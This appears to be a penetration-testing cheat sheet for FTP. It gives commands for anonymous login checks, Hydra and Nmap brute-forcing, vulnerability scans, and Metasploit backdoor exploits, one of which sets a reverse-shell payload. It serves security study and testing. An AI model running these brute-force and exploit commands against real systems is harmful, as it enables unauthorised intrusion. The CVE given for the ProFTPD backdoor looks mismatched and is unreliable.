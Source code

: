 # FTP

**FTP (File Transfer Protocol)**  
**Description**: Unencrypted protocol for transferring files between client and server
**Ports**: TCP 21 (command), TCP 20 (data)	  
**Known Vulnerabilities**: Anonymous login (misconfiguration), Brute-force attacks, Cleartext credential sniffing, FTP Bounce Attack (CVE-1999-0205)

<br>

# Basic FTP Usage

```shell
ftp <target_IP> <port_number>
# Opens an FTP connection to the target on the specified port.
# Commands inside ftp: ls, cd, get <file_name>, put <file_name>, exit

ftp <target> # Anonymous login
# When prompted, enter anonymous as both the username and password for login.
```

<br>

# Enumeration with Metasploit and Nmap

```shell
use auxiliary/scanner/ftp/ftp_version
# Scans the FTP service to identify version and banner information.

use auxiliary/scanner/ftp/anonymous
# Checks if the FTP server allows anonymous login.

use auxiliary/scanner/ftp/ftp_login
# Performs brute-force login attempts on the FTP service using user/password lists.

nmap --script ftp-anon -p 21 <target_IP>
# Checks if the FTP server allows anonymous login.

nmap --script ftp-brute --script-args userdb=/root/users -p 21 <target_IP>
# Performs brute-force attack on FTP using a list of usernames.
```

<br>

# Brute-Force with Hydra and Nmap

```shell
hydra -L <user_wordlists> -P <password_wordlists> ftp://<target_IP> -t 4
# Brute-forces FTP login with 4 parallel connections.

hydra -L <user_wordlists> -P <password_wordlists> ftp://<target_IP>:<port>
# Same as above, but specifies a custom FTP port.

hydra -L <user_wordlists> -P <password_wordlists> <target_IP> ftp
# Alternative syntax for brute-forcing FTP without URL format.

echo "sysadmin" > users
# Writes "sysadmin" to the file users, replacing its contents.

nmap --script ftp-brute --script-args userdb=/root/users -p 21 <target_IP>
# Brute-forces FTP usernames from the specified file using Nmap.
```

<br>

# FTP Vulnerability Discovery

```shell
nmap -sV -p 21 --script ftp-proftpd-backdoor <target_IP>
# Checks for a known ProFTPD backdoor vulnerability (CVE-2010-4221).

nmap --script vuln -p 21 <target_IP>
# Runs vulnerability scripts against FTP to detect common issues.

searchsploit ProFTPD
# Searches Exploit-DB for known ProFTPD vulnerabilities based on the detected version.
```

<br>

# Exploiting FTP Vulnerabilities

```shell
use exploit/unix/ftp/proftpd_133c_backdoor
# Exploits a backdoor in ProFTPD 1.3.3c (CVE-2010-4221) to gain a remote root shell.
# Triggered by sending a crafted command to the FTP server.
set payload cmd/unix/reverse
set RHOSTS <target_IP>
set LHOST <local_IP>

use exploit/unix/ftp/vsftpd_234_backdoor
# Exploits a backdoor in vsftpd 2.3.4 that opens a shell on port 6200 after a smiley :) username login attempt.
# Vulnerable version: vsftpd 2.3.4 (intentionally backdoored).

use exploit/unix/ftp/proftpd_modcopy_exec
# ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)
# Exploits the mod_copy module in ProFTPD to copy files from or to any location on the server.
# Allows remote code execution by writing a malicious file into a web-accessible directory.
# Set the variables in msfconsole for RHOSTS , LHOST , and SITEPATH
```
